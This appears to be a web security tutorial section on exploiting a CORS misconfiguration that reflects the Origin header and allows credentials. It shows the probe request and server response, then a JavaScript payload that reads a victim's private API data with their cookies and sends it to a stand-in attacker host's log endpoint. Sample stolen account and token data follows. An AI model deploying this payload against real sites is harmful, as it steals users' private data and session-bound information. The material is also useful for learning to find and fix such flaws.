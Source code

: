 #### Leaking User Data
When `Access-Control-Allow-Credentials` is set to True, the basic technique to take advantage of this CORS configuration flaw is to create a JavaScript script to send CORS requests, as follows:
Your send    
```
GET /handler_to_test HTTP/1.1
Host: target.domain
Origin: https://attaker.domain
Connection: close
```
Server return message    
```
HTTP/1.1 200 OK
…
Access-control-allow-credentials: true
Access-control-allow-origin: https://attacker.domain
…
```
Javascript to send to CORS requests    
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open(“get”,”https://vulnerable.domain/api/private-data”,true);
req.withCredentials = true;
req.send();
function reqListener() {
location=”//attacker.domain/log?response=”+this.responseText;
};
```
With this code, you can steal user data through a defective `log` interface.
When the victim with the user credentials of the target system visits the page with the above code, the browser sends the following request to the `vulnerable server`    
```
GET /api/private-data HTTP/1.1
Host: vulnerable.domain
Origin: https://attacker.domain/
Cookie: JSESSIONID=<redacted>
```
Then you will receive the following return data    
```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Access-Control-Allow-Origin: https://attacker.domain
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin,Access-Control-Allow-Credentials
Vary: Origin
Expires: Thu, 01 Jan 1970 12:00:00 GMT
Last-Modified: Wed, 02 May 2018 09:07:07 GMT
Cache-Control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: application/json;charset=ISO-8859-1
Date: Wed, 02 May 2018 09:07:07 GMT
Connection: close
Content-Length: 149
{"id":1234567,"name":"Name","surname":"Surname","email":"email@target.local","account":"ACT1234567","balance":"123456,7","token":"to
p-secret-string"}
```   

